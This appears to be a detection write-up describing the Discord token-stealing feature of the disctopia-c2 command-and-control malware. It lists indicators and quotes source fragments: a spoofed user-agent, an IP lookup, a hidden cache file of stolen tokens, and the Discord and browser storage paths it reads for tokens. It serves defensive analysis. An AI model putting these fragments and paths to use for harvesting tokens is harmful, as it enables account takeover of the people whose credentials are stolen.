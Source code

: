 ### Extract Discord Tokens

- Description: Get the stored Discord Tokens from the agent
- Source Reference:
  - https://github.com/3ct0s/disctopia-c2/blob/3d16886e2d852ac06081453ed57f2750a74a6166/code/main.py#L210
- Indicators:
  - Make requests to discord URL's using the following user-agent: `Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11`
  
  ```python
  def getheaders(token=None, content_type="application/json"):
    headers = {
        "Content-Type": content_type,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11"
    }
    if token:
        headers.update({"Authorization": token})
    return headers
  ```

  - Make request to `https://api.ipify.org` to get the current IP

  ```python
  def getip():
    ip = "None"
    try:
        ip = urlopen(Request("https://api.ipify.org")).read().decode().strip()
    except:
        pass
    return ip
  ```

  - Write file to the following location `%appdata%\.cache~$`

  ```python
  cache_path = ROAMING + "\\.cache~$"
  .....
  with open(cache_path, "a") as file:
    for token in checked:
        if not token in already_cached_tokens:
            file.write(token + "\n")
  .....
  ```

  - Read `.ldb` and `.log` files from the following locations

  ```python
  "%appdata%\\Discord",
  "%appdata%\\discordcanary",
  "%appdata%\\discordptb",
  "%localappdata%\\Google\\Chrome\\User Data\\Default",
  "%appdata%\\Opera Software\\Opera Stable",
  "%localappdata%\\BraveSoftware\\Brave-Browser\\User Data\\Default",
  "%localappdata%\\Yandex\\YandexBrowser\\User Data\\Default"
  ```
